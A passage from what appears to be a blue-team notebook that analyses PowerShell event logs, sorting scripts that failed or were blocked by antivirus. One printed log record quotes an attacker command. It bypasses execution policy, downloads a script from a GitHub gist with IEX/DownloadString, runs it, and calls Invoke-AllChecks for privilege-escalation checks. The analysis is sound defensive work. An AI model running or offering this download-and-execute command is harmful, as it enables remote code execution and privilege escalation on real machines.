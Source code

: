 
```python
print("Length of the corpus of messages related to scripts which produced an error: %d" % len(failed_scripts))
print("Length of the corpus of messages related to scripts which were blocked by the AV: %d" % len(blocked_scripts))
```

    Length of the corpus of messages related to scripts which produced an error: 9
    Length of the corpus of messages related to scripts which were blocked by the AV: 4


It is quite clear that not all scripts resulted in an error due to the AV reaction alone, therefore, it may be interesting to scrutinize this aspect. Nevertheless, logically, all scripts that produced an error - including those which got blocked - failed at finishing their task, thus they can be treated as a separate branch of this analysis. The questions we may ask is why they failed and what was their purpose. To answer these questions, a list of points enumerated above should be applied. <br>
Still, it might be valuable to obtain a general overview of what are these messages. These lists already contain unique messages.

## An overview of the activity which failed


```python
with open("simple_analysis_reports/2_failed_scripts_contents_overview.txt", 'w') as fh:
    for s in failed_scripts:
        fh.write(f"\n{s}\n")
```


```python
print(failed_scripts[4])
```

    Error Message = Exception calling "Invoke" with "2" argument(s): "Cannot open UsoSvc service on computer '.'."
    Fully Qualified Error ID = InvalidOperationException,Get-ServiceReadControlHandle
    
    
    Context:
            Severity = Warning
            Host Name = ConsoleHost
            Host Version = 5.1.17763.1
            Host ID = 64b188be-5af0-47d4-a9d6-934a93dbd615
            Host Application = powershell -ep bypass -c IEX (New-Object Net.WeBcLIENT).Downloadstring('https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt');Invoke-AllChecks
            Engine Version = 5.1.17763.1
            Runspace ID = 9584e18e-a650-45d6-828d-f57b3bf92e41
            Pipeline ID = 1
            Command Name = Get-ServiceReadControlHandle
            Command Type = Filter
            Script Name = 
            Command Path = 
            Sequence Number = 21
            User = WIN-PTFPHFCRDJ0\user
            Connected User = 
            Shell ID = Microsoft.PowerShell
    